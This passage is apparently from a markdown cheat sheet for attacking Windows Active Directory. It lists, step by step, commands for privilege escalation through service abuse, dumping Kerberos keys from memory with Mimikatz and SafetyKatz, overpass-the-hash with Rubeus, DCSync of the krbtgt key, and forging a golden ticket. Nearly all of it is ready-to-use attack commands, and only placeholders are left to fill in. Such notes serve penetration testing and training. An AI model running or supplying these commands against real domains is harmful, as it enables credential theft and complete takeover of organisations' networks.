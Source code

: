 ~~~~c
Find-PSRemotingLocalAdminAccess
~~~~
# 2º Privilege escalation
* Invoke all security checks
~~~~c
Invoke-Allchecks
~~~~
* Get services with unquoted paths and a sapace in their name:
~~~~c
Get-ServiceUnquoted -Verbose
~~~~
* Get services where the current user can write to its binary path or change arguments to the binary:
~~~~c
Get-ModifiableServiceFile -Verbose
~~~~
* Get the services whose configuration current user can modify:
~~~~c
Get-ModifiableService -Verbose
~~~~
* Abuse a certain Service
~~~~c
Invoke-ServiceAbuse -Name ‘SERVICENAME’ -Username ‘DOMAIN\USER’
~~~~
# 3º Post Exploitation & Lateral Movement
## 3.1 Post Exploitation
### Mimikatz
Better use aes256 keys instead of RC4, which is NTLM hash
* Dump local Kerberos AES keys
~~~~c
Invoke-Mimikatz -Command: '"sekurlsa::ekeys"'
Safetykatz.exe "sekurlsa::ekeys"
pypykatz.exe live lsa
~~~~
* Create Over Pass The Hash
~~~~c
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:DOMAIN /aes256:<aes256key> /run:powershell.exe"'

SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:DOMAIN /aes256:<aes256keys> /run:cmd.exe" "exit"
~~~~
### Rubeus
* Create Over Pass The Hash
~~~~c
rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createonly:C:\Windows\System32\cmd.exe /show /ptt
~~~~
* Create without privileges
~~~~c
rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
~~~~
### Golden Ticket
1º Execute a DCsync attack to get the krbtgt kerberos aes 256 key
~~~~c
C:\AD\tools\SafetyKatz.exe "lsadump::dcsync /user:DOMAIN\krbtgt" "exit"
~~~~
2º Create a Golden ticket on the session impresonating krbtgt
~~~~c
BetterSafetyKatz.exe "kerberos::golden /User:Adminisrator /domain:DOMAIN /sid:<Domain SID> /aes256:<HashOfkrbtgtAccount> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
~~~~